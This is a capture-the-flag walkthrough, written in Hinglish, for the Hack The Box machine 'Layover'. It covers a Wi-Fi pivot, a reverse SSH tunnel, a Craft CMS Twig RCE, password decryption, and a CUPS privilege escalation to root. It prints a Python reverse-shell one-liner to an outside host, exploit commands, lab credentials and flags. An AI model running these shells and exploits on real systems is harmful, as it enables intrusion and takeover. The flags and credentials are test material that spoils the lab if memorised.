

# Layover

> **HTB · Linux · Medium · Rating 4.1** · IP `10.129.47.244` · jump host `airside-ws01` → internal net `10.13.37.0/24`
> Flags: `user.txt` ✅ · `root.txt` ✅ · Solved: 2026-10-03



---

## 1. Recon & entry

```bash
nmap -p- -sV -Pn 10.129.47.244
# 22/tcp   OpenSSH 9.6p1 Ubuntu
# 3389/tcp xrdp
```

Credentials `htb machine info Layover` se milte hain (machine info me hi diye hote hain):

```text
contractor / Contractor2026!
```

**SSH rejected** (`Permission denied`) — RDP hi entry hai.

> ⚠️ **VPN gotcha**: HTB CLI ka default `htb.ovpn` Arena (server **686**) hota hai — Machines ke liye `htb vpn download 251` chahiye (server **251**, `edge-sg-free-1:443`). Galat config ho to sab `filtered` dikhega. `htb vpn status` se verify karo.

### Headless RDP (Kali container se)

```bash
apt-get install -y freerdp3-x11 xvfb xdotool imagemagick
Xvfb :99 -screen 0 1600x900 &
DISPLAY=:99 xfreerdp3 /v:10.129.47.244 /u:contractor /p:"Contractor2026!" \
  /cert:ignore /size:1600x900 &
# screenshot → docker cp → Read tool
DISPLAY=:99 import -window root /tmp/rdp1.png
# type: xdotool mousemove X Y click 1; xdotool type --delay 12 "cmd"
```

License `BB_ERROR_BLOB` error cosmetic hai — session chalta hai. Terminal: `xdotool key ctrl+alt+t`.

---

## 2. Jump host (airside-ws01)

Reverse shell (python3 PTY — background `bash -i` SIGTSTP me **Stopped** ho jata hai, mat use karo):

```bash
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("10.10.16.29",4445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

Command channel (agent side): listener `/root/listener2.py` (FIFO `/tmp/f2`, log `/tmp/shell2.log`) —

```bash
docker exec kali sh -c 'echo "id" > /tmp/f2'   # command bhejo
docker exec kali cat /tmp/shell2.log | tail    # output padho
```

Enum:

```text
hostname: airside-ws01   uid=1001(contractor) groups=sudo,netdev,wireshark
interfaces: eth0 10.159.143.45/24, wlan2 + wlan3 (DOWN, disconnected)
nmcli con show → empty (koi saved Wi-Fi profile nahi)
sudo → password Contractor2026! chalta hai
10.13.37.0/24 eth0 se reachable NAHI hai — Wi-Fi chahiye
DNS: portal.international.htb = 10.13.37.10
```

---

## 3. Wi-Fi connect (open network!)

```bash
nmcli dev wifi list
# IN-USE  SSID: HTB International WiFi   CH 6   SECURITY: --   (OPEN!)

sudo nmcli dev wifi connect "HTB International WiFi" ifname wlan2
# Device 'wlan2' successfully activated
ip a show wlan2   # inet 10.13.37.182/24
curl -sI http://portal.international.htb/miles/login.php
# HTTP/1.1 400 (nginx/1.24.0 respond karta hai — reachable!)
```

> ⚠️ Wi-Fi connect ke baad **do default route** ho jaate hain (eth0 metric 100 vs wlan2 metric 20600). eth0 hi jeetta hai, par connection ke dauran transient route flaps ho sakte hain — VPN pings toot jaye to `ip route` dekho.

---

## 4. Pivot: reverse SSH tunnel

**Problem**: jump host → Kali `10.10.16.29:22` = **Connection timed out** (HTB path me port 22 filtered), par `:4445` aur `:2222` OK. Toh Kali par sshd **port 2222** par chalao:

```bash
# Kali (container) me:
apt-get install -y openssh-server
/usr/sbin/sshd -p 2222
echo "ssh-ed25519 AAAA... contractor@airside-ws01" >> /root/.ssh/authorized_keys

# jump host me:
ssh-keygen -t ed25519 -f ~/.ssh/id_rt -N ""
ssh-keygen -y -f ~/.ssh/id_rt            # → Kali authorized_keys me daalo
ssh -p 2222 -o StrictHostKeyChecking=no -f -N \
    -R 18080:10.13.37.10:80 -R 18022:10.13.37.10:22 \
    -i ~/.ssh/id_rt root@10.10.16.29
```

Kali side: tunnel `127.0.0.1:18080` (→portal:80) + `127.0.0.1:18022` (→portal:22) listen karega. Ab:

```bash
# /etc/hosts (write-through — file bind-mounted hoti hai, cp se edit karke wapas daalo):
printf "127.0.0.1 portal.international.htb international.htb\n" >> /etc/hosts
# port 80 → 18080 redirect (nginx vhost Host header chahiye):
iptables -t nat -A OUTPUT -p tcp -d 127.0.0.1 --dport 80 -j REDIRECT --to-ports 18080
curl -s http://portal.international.htb/miles/login.php   # ab Kali se direct
```

---

## 5. Portal & Craft CMS login

```bash
# Miles login (cookieless app — session hi nahi set hota, par POST 200 = Jenny Crawford dashboard!)
curl -s -X POST http://portal.international.htb/miles/login.php \
  -d "username=jenny&password=Fl1ghtDeck2026!&remember=1"
# <title>HTB Airways Miles — Jenny Crawford</title>

# Craft CP: /admin → /admin/login (CSRF + CraftSessionId cookie)
# POST loginName=jenny password=... → 302 → /admin/dashboard ✓
```

Jenny ka CP me **login** hai (admin nahi chahiye) — yahi CVE-2026-31857 ki condition hai.

---

## 6. RCE — CVE-2026-31857 (Craft CMS 5.9.8)

Any authenticated CP user → `element-indexes/count-elements` action ke `RelatedToConditionRule.elementIds` field me **unsandboxed Twig** (`renderObjectTemplate`, escaping off) → `|map('system')`.

PoC: [`cve-2026-31857-exploit.py`](./cve-2026-31857-exploit.py) (interactive, X-RET-Out header se output wapas; stdlib only; source: 0Asylum/CVE-2026-31857)

```bash
printf '%s\n' 'Fl1ghtDeck2026!' 'id' | python3 cve-2026-31857-exploit.py http://portal.international.htb jenny
# uid=33(www-data) gid=33(www-data)   host: portal  kernel 6.8.0-142-generic
```

Payload ka core (Twig, `filterConfig.conditionRules[].elementIds`):

```twig

1
```

> Note: output HTTP **header** me jata hai (1200 byte cap) — bade outputs chunk karo (`head`, `tail`, `grep`).

---

## 7. Credential recovery → aporter

```bash
# www-data se:
cat /var/www/portal/.env
# CRAFT_SECURITY_KEY=IGckihiFK64_lrSgJJ6QLkiPz-ow13Lr
# DB: craftuser / CraftDB_pw_2026

grep -rli aporter /etc /var /opt ...
# /var/www/portal/modules/htbairways/console/controllers/MilesController.php
#   'user' => $kv['mailRelayUser'] ?? 'aporter',
#   'password' => decryptByKey(base64_decode($kv['mailRelayPassword']), $securityKey)
```

`htbairways_settings` table me `mailRelayPassword` = security-key-encrypted blob. [`decrypt-mailrelay.php`](./decrypt-mailrelay.php) se decrypt (project `bootstrap.php` **zaroori** — warna DB connect error):

```bash
php /tmp/dec.php
# DECRYPTED:Skyp0rt_Relay!26
```

---

## 8. SSH → user flag

```bash
sshpass -p 'Skyp0rt_Relay!26' ssh -p 18022 aporter@127.0.0.1 \
  "cat /home/aporter/user.txt; cups-config --version"
# 9c8ae7bac1601f4e8abf2f98e4b97789     ← USER ✅ (htb machine own)
# 2.4.16
```

---

## 9. LPE — CVE-2026-34990 (CUPS 2.4.16)

Chain: rogue IPP listener (`127.0.0.1:9189`) ko cupsd authenticate karwao → reusable `Authorization: Local` token chori → token se admin ops (`CUPS-Add-Modify-Printer`, `printer-is-shared=true`, `ppd-name=raw`) → temporary `file:///` queue ko **persist** (FileDevice policy bypass — race hai, retries lo) → gzip Print-Job → **root** bytes `/etc/sudoers.d/` me likhta hai.

```bash
scp -P 18022 cve-2026-34990-cups-lpe.py aporter@127.0.0.1:/tmp/exploit.py
sshpass -p 'Skyp0rt_Relay!26' ssh -p 18022 aporter@127.0.0.1 "cd /tmp && python3 exploit.py"
# attempt 4/12 → [+] SUCCESS → sudo -n id → uid=0(root) ✓

sudo -n cat /root/root.txt
# e6faa0553d3c996427cda4f3b82d0e1c     ← ROOT ✅ (htb machine own)
```

PoC (khush-613/CVE-2026-34990-poc) me `import os` pehle se hai; agar `NameError: name 'os'` aaye → `sed -i '2i import os' /tmp/exploit.py`. Sudoers line hardcoded `aporter ALL=(ALL) NOPASSWD: ALL` — is machine ke liye perfect. `ipptool` + `/usr/share/cups/ipptool/cups-create-local-printer.test` target par hone chahiye (donon the ✓).

---

## Barriers / gotchas

| # | Problem | Fix |
|---|---------|-----|
| 1 | Sab target `filtered` dikhte the | Wrong VPN config (Arena 686) → `htb vpn download 251` |
| 2 | SSH contractor@target:22 rejected | Sirf RDP hi entry hai |
| 3 | Portal `10.13.37.10` jump host eth0 se unreachable | Open Wi-Fi connect karo (nmcli) → wlan2 = 10.13.37.182 |
| 4 | Jump host → Kali :22 timeout (2222/4445 OK) | Kali sshd **port 2222** + `ssh -R` (reverse — inbound to jump host NAT'd hai) |
| 5 | Kali se `portal` 400 + port 80 khaali | /etc/hosts write-through + `iptables REDIRECT 80→18080` |
| 6 | Miles login me koi Set-Cookie nahi | App cookieless hai — POST 200 + dashboard title = success |
| 7 | Craft exploit output missing | Output **header** (`X-RET-Out`) me hai, body me nahi; 1200 byte cap |
| 8 | `php dec.php` → DB connection error | Project `/var/www/portal/bootstrap.php` require karo (dotenv load hota hai) |
| 9 | CUPS PoC race (attempt 4 laga) | Retries built-in; `sudo -n` se verify |
| 10 | `pkill -f <pattern>` ne khud ko maar diya (2 baar) | `pkill -x` ya bracket trick `pattern[2]` use karo |

---

## Attack chain (credentials)

| Credential | Purpose |
|---|---|
| `contractor / Contractor2026!` | RDP → jump host (+ sudo) |
| `jenny / Fl1ghtDeck2026!` | Portal **and** Craft CP → CVE-2026-31857 RCE |
| `CraftDB_pw_2026` + `CRAFT_SECURITY_KEY` | decrypt `mailRelayPassword` |
| `aporter / Skyp0rt_Relay!26` | SSH → user.txt → CUPS LPE → root |

**Chain**: `RDP → Wi-Fi → tunnel → Craft CMS RCE → decrypt → SSH → CUPS LPE → ROOT`
